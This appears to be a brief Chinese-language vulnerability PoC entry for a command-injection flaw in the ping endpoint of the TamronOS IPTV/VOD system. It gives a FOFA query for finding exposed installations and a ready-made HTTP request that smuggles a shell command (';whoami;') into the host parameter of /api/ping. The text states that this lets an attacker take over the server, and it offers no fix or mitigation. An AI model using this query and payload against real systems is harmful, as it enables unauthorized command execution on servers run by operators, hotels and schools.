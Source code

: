 # TamronOS IPTV系统ping存在命令执行漏洞

# 一、漏洞简介
TamronOS IPTV/VOD系统是一套基于Linux内核开发的宽带运营商、酒店、学校直播点播一体解决方案。系统提供了多种客户端（Android机顶盒、电视、PC版点播、手机版点播）方便用户通过不同的设备接入。TamronOS IPTV系统ping存在命令执行漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ TamronOS IPTV系统

# 三、资产测绘
+ fofa`app="TamronOS-IPTV系统"`
+ 特征

![1706860491374-8545916f-3d24-4853-b41f-e8eff2b2af16.png](./img/tmaUZyNyQBoQjl11/1706860491374-8545916f-3d24-4853-b41f-e8eff2b2af16-092046.png)

# 四、漏洞复现
```plain
POST /api/ping?count=5&host=;whoami; HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 0
Connection: close

```

 ![1706860532468-6f287a9a-0ce8-4de9-8388-66f83d562db2.png](./img/tmaUZyNyQBoQjl11/1706860532468-6f287a9a-0ce8-4de9-8388-66f83d562db2-533809.png)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zy6y35t0g2nad6dw>